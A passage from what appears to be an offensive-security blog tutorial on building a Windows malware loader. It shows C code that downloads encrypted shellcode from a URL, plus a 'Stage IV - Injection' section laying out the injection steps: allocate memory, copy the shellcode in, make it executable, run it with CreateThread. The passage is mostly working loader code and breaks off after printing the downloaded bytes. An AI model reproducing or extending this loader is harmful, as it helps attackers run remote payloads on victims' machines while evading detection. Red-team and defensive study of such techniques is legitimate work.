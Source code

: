 At the end, the pointers are set for the data accessed through the server and the size of the data.      
```c
    // Store the address of the complete shellcode buffer
    *pPayloadBytes = pBytes;

    // Store the total number of bytes downloaded
    *sPayloadSize = sSize;
    return TRUE;
}
```

Now since we have most of our functions ready, i.e., reading the encrypted shellcode and decrypting the shellcode, we can proceed towards the shellcode injection. The process is the same as we did in the previous blog which consists of allocating the virtual memory space, copying the shellcode into the allocated memory, defining the memory address to be executable, and executing the shellcode using CreateThread.

## Stage IV - Injection

WWe can either create a separate function to perform the shellcode injection or use the main function as well. The main function calls the above **ShellcodeFromUrl** and saves the output in the variables **Size** and **Bytes**. Next, the **SimpleDecryption** is called using the appropriate key, IV, and the above **Size** and **Bytes**. The **SimpleDecryption** function itself calls the **InstallAesDecryption** function and provides the decrypted shellcode and its size as variables **pPlaintext** and **dwPlainSize**. Once that is obtained, shellcode injection is performed.  

```c
int main() {

    SIZE_T	Size = NULL;
    PBYTE	Bytes = NULL;


    // Calling the function to read the encrypted shellcode
    if (!ShellcodeFromUrl(&Bytes, &Size)) {
        return -1;
    }

    // Printing encrypted shellcode address and size of it.
    printf("[i] Bytes : 0x%p \n", Bytes);
    printf("[i] Size  : %ld \n", Size);

    // Printing the shellcode into bytes.
    for (int i = 0; i < Size; i++) {
        if (i % 16 == 0)
            printf("\n\t");

        printf("%0.2X ", Bytes[i]);
    }
    printf("\n\n");

    // Printing the shellcode into Hex Format.
    printf("Hex Format\n");
    for (int i = 0; i < Size; i++) {
        if (i % 16 == 0) {
            printf("\n\t");
        }
        if (i < Size - 1) {
            printf("0x%0.2X, ", Bytes[i]);
        }
        else {
            printf("0x%0.2X ", Bytes[i]);
        }
    }
    printf("\n\n\n");
```
